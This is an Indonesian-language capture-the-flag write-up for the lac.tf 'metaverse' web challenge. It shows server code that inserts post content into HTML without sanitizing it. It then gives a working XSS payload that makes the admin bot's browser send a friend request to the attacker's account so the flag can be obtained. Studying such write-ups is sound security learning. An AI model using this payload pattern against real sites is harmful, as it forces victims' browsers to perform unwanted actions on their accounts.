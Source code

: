Dan nanti daftar `displayName` akan muncul di `/`:

![](https://i.imgur.com/Nb7kjcU.png)

#### Exploit

Untuk mengeksploit challenge ini kita bisa memanfaatkan XSS yang berada di `/post/:id` dimana di kode tersebut akan me-replace `$CONTENT` tanpa me-sanitizenya terlebih dahulu sehingga vulnerable dengan XSS.

```javascript
// templating engines are for losers!
const postTemplate = fs.readFileSync(path.join(__dirname, "post.html"), "utf8");
app.get("/post/:id", (req, res) => {
    if (posts.has(req.params.id)) {
        res.type("text/html").send(postTemplate.replace("$CONTENT", () => posts.get(req.params.id)));
    } else {
        res.status(400).type("text/html").send(postTemplate.replace("$CONTENT", "post not found :("));
    }
});
```

Kita bisa memanfaatkan XSS ini dengan cara membuat `metapost` baru dan menggunakan payload di bawah untuk melakukan post request ke `/friend` dan memaksa admin utuk berteman dengan `username` yaitu akun kita.

![](https://i.imgur.com/WPsox7J.png)

payload:

```html
<script>
    const username = "asd"
    fetch("/friend", {
        method: "POST",
        mode:"no-cors",
        headers:{
            "Content-Type":"application/x-www-form-urlencoded"
        },
        body:"username="+username,
    })
</script>
```

Kita post dan kita akan mendapatkan link ke post tersebut, example:
```
https://metaverse.lac.tf/post/4c92e335-e93a-4662-beb8-e2ea478167dc
```

Ini kita kirim ke bot admin untuk men-trigger XSS pada akun admin, dan jangan lupa untuk berteman ke admin juga agar kita mendapatkan flagnya.

![](https://i.imgur.com/tmn8rQn.png)
